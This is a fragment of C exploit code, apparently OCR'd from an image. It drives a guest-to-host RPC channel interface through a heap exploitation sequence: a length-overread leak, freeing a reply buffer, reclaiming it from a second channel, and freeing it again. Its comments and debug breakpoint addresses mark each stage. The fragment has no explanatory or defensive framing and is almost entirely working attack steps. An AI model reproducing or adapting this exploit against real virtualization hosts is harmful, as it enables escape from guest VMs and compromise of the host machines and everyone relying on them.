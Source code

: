 ```c
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s21),&res);//strlen(s21) = 0x100
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s21),s2,&res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i++){
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    //second step free the reply and let the other channel get it.

    channel_open(&chan[1].cookie1,&chan[1].cookie2,&chan[1].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }

    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2)-4,s2,&res);
    if(!res){
        printf("fail to send data\n");
        return;
    }

    //free the output buffer
    //printf("Freeing the buffer....,bp:0x5555556DD3EF\n");
    printf("now let's free\n");
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&res);
    if(!res){
        printf("fail to recv finish1\n");
        return;
    }

    printf("then alloc channel 1\n");
    //finished sending the command, should get the freed buffer
    printf("Finishing sending the buffer , should allocate the buffer..,bp:0x5555556DD5BC\n");
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,4,&s2[16],&res);
    if(!res){
        printf("fail to send data\n");
        return;
    }

    printf("check if channel 1's buffer == channel 0's buffer\n");
    //third step,free it again
    //set status to be 4

    //free the output buffer
    printf("Free the buffer again...\n");
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&res);
```